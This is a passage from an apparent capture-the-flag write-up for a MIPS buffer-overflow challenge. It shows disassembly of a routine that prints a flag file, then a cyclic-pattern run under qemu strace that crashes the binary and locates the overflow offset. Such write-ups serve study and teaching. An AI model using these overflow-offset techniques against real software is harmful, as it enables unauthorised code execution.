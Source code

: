 ```assembly
        00400840 0b 00 1c 3c     lui        gp,0xb
             assume t9 = <UNKNOWN>
             assume gp = <UNKNOWN>
        00400844 30 81 9c 27     addiu      gp,gp,-0x7ed0
        00400848 21 e0 99 03     addu       gp,gp,t9
        0040084c e0 ff bd 27     addiu      sp,sp,-0x20
        00400850 1c 00 bf af     sw         ra,local_4(sp)
        00400854 18 00 be af     sw         s8,local_8(sp)
        00400858 25 f0 a0 03     or         s8,sp,zero
        0040085c 10 00 bc af     sw         gp=>_gp,local_10(sp)
        00400860 34 80 82 8f     lw         v0,-0x7fcc(gp)=>PTR_LAB_004a09a4                                               = 00470000
        00400864 74 54 44 24     addiu      a0=>s_flag1_00475474,v0,0x5474                                                 = "flag1"
        00400868 30 80 82 8f     lw         v0,-0x7fd0(gp)=>->__ehdr_start                                                 = 00400000
        0040086c 30 07 42 24     addiu      v0,v0,0x730
        00400870 25 c8 40 00     or         t9,v0,zero
        00400874 ae ff 11 04     bal        print_file                                                                     undefined print_file()
```

In order to discover the exact overflow offset, we run `bof` with the built-in `qemu` functionality of `strace`. Note that using the default alphabet of `cyclic` was giving an incorrect result for some reason, so we're using a non-standard one:
```console
root@kali:/media/sf_CTFs/google/STOP_GAN# cyclic -a "ABCDE" 300 |  qemu-mipsel-static -strace ./bof
3161 uname(0x7ffff258) = 0
3161 brk(NULL) = 0x004a3000
3161 brk(0x004a3cc8) = 0x004a3cc8
3161 set_thread_area(0x004aa490) = 0
3161 readlink("/proc/self/exe",0x7fffe3a8,4096) = 34
3161 brk(0x004c4cc8) = 0x004c4cc8
3161 brk(0x004c5000) = 0x004c5000
3161 access("/etc/ld.so.nohwcap",F_OK) = -1 errno=2 (No such file or directory)
3161 rt_sigaction(SIGSEGV,0x7ffff1a0,0x7ffff180) = 0
3161 fstat64(1,0x7ffff198) = 0
3161 write(1,0x4a4780,35)Cauliflower systems never crash >>
 = 35
3161 fstat64(0,0x7fffeb70) = 0
3161 read(0,0x4a4b88,4096) = 300
3161 read(0,0x4a4b88,4096) = 0
--- SIGSEGV {si_signo=SIGSEGV, si_code=1, si_addr=0x41444344} ---
3161 open("flag0",O_RDONLY) = 3
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)f = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)l = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)a = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)g = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)1 = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)2 = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)3 = 1
3161 read(3,0x7ffff16c,1) = 1
3161 write(1,0x7ffff16c,1)
 = 1
3161 read(3,0x7ffff16c,1) = 0
3161 close(3) = 0
3161 write(1,0x4a4780,30)segfault detected! ***CRASH*** = 30
```